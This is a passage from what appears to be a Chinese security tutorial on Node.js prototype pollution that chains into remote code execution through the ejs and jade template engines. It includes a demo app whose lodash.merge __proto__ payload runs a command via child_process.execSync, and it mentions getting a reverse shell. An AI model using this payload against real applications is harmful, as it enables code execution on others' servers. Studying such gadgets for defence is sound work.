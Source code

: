 向 `/add` 路由发送 6 次请求：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01aabac1b5a6b2103a.png)

然后访问 `/get` 路由进行原型链污染，最后访问 `/` 或 `/login` 路由触发 `render` 函数进行 ejs 模板 RCE，成功反弹 Shell：

[![](https://p0.ssl.qhimg.com/t01946502e8021a8ed0.png)](https://p0.ssl.qhimg.com/t01946502e8021a8ed0.png)



## 配合 jade 模板引擎实现 RCE

Nodejs 的 jade 模板引擎存在一个利用原型污染进行 RCE 的一个漏洞。但要实现 RCE，首先需要有原型链污染，这里我们暂且使用 lodash.merge 方法中的原型链污染漏洞。
- app.js
```
var express = require('express');
var lodash= require('lodash');
var jade = require('jade');

var app = express();
//设置模板的位置与种类
app.set('views', __dirname);
app.set("view engine", "jade");

//对原型进行污染
var malicious_payload = '`{`"__proto__":`{`"compileDebug":1,"self":1,"line":"console.log(global.process.mainModule.require(\'child_process\').execSync(\'calc\'))"`}``}`';
lodash.merge(`{``}`, JSON.parse(malicious_payload));

//进行渲染
app.get('/', function (req, res) `{`
    res.render ("index.jade",`{`
        message: 'whoami test'
    `}`);
`}`);

//设置http
var server = app.listen(8000, function () `{`

    var host = server.address().address
    var port = server.address().port

    console.log("应用实例，访问地址为 http://%s:%s", host, port)
`}`);
```
- index.jade
```
h1 #`{`message`}`
p #`{`message`}`
```
